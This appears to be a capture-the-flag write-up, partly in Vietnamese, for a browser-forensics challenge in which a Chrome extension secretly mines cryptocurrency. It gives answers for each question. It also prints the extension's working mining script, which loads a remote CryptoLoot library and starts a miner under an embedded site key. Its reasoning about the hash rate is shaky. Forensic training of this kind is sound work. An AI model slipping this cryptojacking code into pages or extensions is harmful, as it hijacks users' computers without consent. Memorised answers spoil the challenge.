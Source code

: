 ## Description
> Our SOC alerted that there is some traffic related to crypto mining from a PC that was just joined to the network. The incident response team acted immediately, observed that the traffic is originating from browser applications. After collecting all key browser data using FTK Imager, it is your job to use the ad1 file to investigate the crypto mining activity.
## Link challenge
> https://blueteamlabs.online/home/challenge/browser-forensics-cryptominer-aa00f593cb
## Solution
- Để phân tích được tệp ad1, em sử dụng công cụ ftkimage
- ***How many browser-profiles are present in Google Chrome?***
- Các profile chrome được lưu tại 
- ![image](image/1.PNG)
- ![image](image/2.PNG)
- Có thể thấy ở đây có 2 profile 
> A : 2

- ***What is the name of the browser theme installed on Google Chrome?***
- ***What is the description text of this extension?***
- Để tìm được thư mục chứa các theme  em tìm kiếm trên internet và tìm được [nguồn này](https://superuser.com/questions/86672/is-there-a-way-to-find-the-name-of-the-current-theme-in-google-chrome)
- ![image](image/3.PNG)
- Em copy id và tìm trên internet thì tìm được đường dẫn [này](https://www.crx4chrome.com/themes/iiihlpikmpijdopbaegjibndhpgjmjfe/)
- ![image](image/4.PNG)
> A : Earth in Space

- ***Identify the Extension ID and Extension Name of the cryptominer***
- Tương tự như theme em tìm tại folder extension 
- ![image](image/5.PNG)
- Em tìm được 1 id extension `egnfmleidkolminhjlkaomjefheafbbb` và có mô tả `Allows staff members to mine cryptocurrency in the background of their web browser` kèm tên `DFP Cryptocurrency Miner` tại file `manifest.json`

> A: egnfmleidkolminhjlkaomjefheafbbb, DFP Cryptocurrency Miner
> A: Allows staff members to mine cryptocurrency in the background of their web browser

- ***What is the name of the specific javascript web miner used in the browser extension?***
- Đây là src của file js

```
<script src="https://crypto-loot.com/lib/miner.min.js"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
	}, 1000);
</script>
```
> cryptoloot

- ***How many hashes is the crypto miner calculating per second?***
- Theo như src ở trên thấy rằng `		var hashesPerSecond = miner.getHashesPerSecond(20);` có 20 hàm băm được tính mỗi giây
> A : 20

- ***What is the public key associated with this mining activity?***
> A: b23efb4650150d5bc5b2de6f05267272cada06d985a0

- ***What is the URL of the official Twitter page of the javascript web miner?***
> A : twitter.com/CryptoLootMiner